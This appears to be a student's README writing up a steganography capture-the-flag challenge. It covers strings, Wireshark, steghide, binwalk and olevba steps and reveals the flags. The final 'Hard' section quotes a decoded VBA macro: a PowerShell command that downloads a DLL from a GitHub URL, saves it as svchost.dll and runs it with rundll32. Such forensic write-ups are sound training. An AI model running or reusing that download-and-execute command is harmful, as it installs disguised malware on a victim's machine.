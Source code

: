 # uwe-steg-challenge

## Dj Khaled
Used the strings command to expose the flag at the bottom of the output - flag{alw4y3_l00k_4_5tr1n9s}

## PCAP 1 
- Opened the PCAP in wireshark 
- Used the filter `http.content_type contains "image/png"` to see image packets
- File -> Export Objects -> HTTP -> Text Filter "PNG" -> export `imagename.png`
- Open the file to reveal the flag 
![Screenshot From 2024-12-08 16-33-15](https://github.com/user-attachments/assets/683c6a92-1d70-4e94-a4b8-c07ccdb833e5)



## SHREK.GIF
- Opend the gif in ezgif.com
- split the gif into frames
- one of the frames contained the flag - flag{g3t_shr3k3d_sk1d}
![Screenshot From 2024-12-08 16-28-32](https://github.com/user-attachments/assets/1a40d73a-e141-4582-887f-8276d73c8677)



## Steghide 1
 - Ran command `steghide -sf uwe.jpg`
 - Exported a file called 
 - There was a base64 encoded string 
 - The docoded string revealed the flag
![Screenshot From 2024-12-08 16-38-49](https://github.com/user-attachments/assets/57fc7d2e-471f-4dd1-96f4-2f7a6875b035)


## Steghide 2 
 - Ran command `strings uwe2.jpg`
 - below the file signature there was the line `XHey GCHQ! Use this for the st3gh1d3 pwd (remember to decode it!): ==wL6kHdpJXdjV2UyJ3R`
 - flipped the string and decoded it using base64 within the terminal `echo "R3JyU2VjdXJpdHk6Lw==" | base64 -d`
 - the command returned `GrrSecurity:/ `
 - ran command `steghide extract -sf uwe2.jpg` and used the password to return a `flag` file
 - the flag file contained `QlpoOTFBWSZTWRvPsyUAAATLgAAQTAAAAKXlFIogADFNMjExMQpkGgejSSNc6jujSwBhTBwpE/F3JFOFCQG8+zJQ`
 - using CyberChef the string was decoded first from base64 then using Bzip2 Decompress returning the flag - flag{g3tting_h4rd3r_n0w}

## Hard 
 - Ran command `binwalk -e test.docm` to extract data from the the docm file
 - there were two images contained in the doc  `image1.jpeg` and `image2.png`
 - ran command `binwalk -e image2.png` 
 - Ran the command `olevba test.docm` as there was a vba macro present
 - the output showed a base64 encoded url `$Command = "Invoke-WebRequest -Uri 'https://github.com/polygonben/polygonben.github.io/raw/refs/heads/master/assets/images/tok3n_th3ft.dll' -OutFile 'C:\temp\svchost.dll'; rundll32.exe C:\temp\svchost.dll,EntryPoint"` which downloads a dll file and runs it
 - 




